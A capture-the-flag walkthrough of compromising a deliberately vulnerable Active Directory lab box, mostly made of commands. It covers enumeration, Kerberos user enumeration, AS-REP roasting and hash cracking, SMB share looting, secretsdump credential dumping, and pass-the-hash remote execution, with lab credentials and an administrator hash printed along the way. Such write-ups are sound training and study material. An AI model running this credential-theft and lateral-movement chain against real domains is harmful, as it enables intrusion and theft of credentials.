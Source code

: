 # Active Directory Exploitation Walkthrough

> 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## Enumeration

Starting off with an Nmap scan on the target (I have already exported the IP address of the target to the variable `$target`):

```bash
nmap -p- -sV -sC $target --open
```

We can see the Active Directory domain: `spookysec.local`.

This is a typical AD setup with services like Kerberos, SMB, RPC, and LDAP running. Let's enumerate these services one by one.

---

## SMB

Nmap revealed SMB ports open on **139, 445**.

### Tools:
- `enum4linux`
- `nmap` SMB scripts
- `crackmapexec`

Running:

```bash
enum4linux -smb $target

nmap -p139,445 --script=smb-enum-shares -sC $target

crackmapexec smb $target
```

> Why is port 445 open?  
Basic domain functions (remote file access, software deployment, system management) require it.

**crackmapexec** reveals:
- Hostname: `ATTACKTIVEDIREC`
- Domain: `spookysec.local`
- OS: Windows 10 / Server 2019 Build 17763

**enum4linux** reveals:
- Domain SID
- NetBIOS name

---

## Kerberos User Enumeration (Kerbrute)

This TryHackMe box comes with a user/password list.

```bash
sudo ./kerbrute_linux_amd64 userenum --dc $target -d spookysec.local userlist.txt
```

**Notable valid users:**
- `svc-admin`
- `administrator`
- `backup`

---

## AS-REP Roasting

ASReproasting targets users **without pre-authentication** required.

> AS-REP = Authentication Server Reply  
> Roasting = Extracting Kerberos-encrypted values for offline cracking

Using Impacket's `GetNPUsers.py`:

```bash
python3 examples/GetNPUsers.py spookysec.local/ -no-pass \
  -usersfile /home/kali/Downloads/userlist.txt -dc-ip 10.10.28.119
```

Result:

```text
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:[hash...]
```

### Hash Info:
- **Hash Type**: Kerberos 5, etype 23, AS-REP
- **Hashcat Mode**: 18200

### Cracking with Hashcat:

```bash
hashcat -m 18200 hash.txt wordlist.txt
```

**Credentials:**
- Username: `svc-admin`
- Password: `management2005`

---

## SMBCLIENT (Accessing Shares)

Use found credentials:

```bash
smbclient -L \\$target -U svc-admin
```

To avoid the password prompt:

```bash
smbclient -L \\$target -U svc-admin%management2005
```

### Accessing a Share:

```bash
smbclient \\$target\backup -U svc-admin%management2005
```

Graphical Alternative (Kali GUI):
- Use `smb://IP/backup` in File Manager

---

## Downloading Files

Example:

```bash
get backup_credentials.txt
```

### Decode base64:

```bash
base64 -d backup_credentials.txt
```

---

## secretsdump.py (Dumping Hashes)

Use backup credentials:

```bash
python3 examples/secretsdump.py spookysec.local/backup:backup2517860@$target
```

**Administrator Hash:**
```
0e0363213e37b94221497260b0bcb4fc
```

---

## Pass-the-Hash with Evil-WinRM

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc \
  -i 10.10.157.141 -u Administrator
```

> You should now have shell access. Use `cd`, `dir`, and `type` to browse and read files.

---

## Alternative Tools

### Netexec

```bash
netexec smb 10.10.157.141 -u backup -p backup2517860 --ntds
```

### crackmapexec (Command Execution)

```bash
crackmapexec smb 10.10.157.141 -u Administrator \
  -H 0e0363213e37b94221497260b0bcb4fc -x "whoami"
```

### crackmapexec (PowerShell)

```bash
crackmapexec smb 10.10.157.141 -u Administrator \
  -H 0e0363213e37b94221497260b0bcb4fc -X "whoami"
```

> PowerShell execution may be blocked by antivirus.

---

## Conclusion

Thanks for reading.  
If you have questions or want to share your thoughts, feel free to comment below.
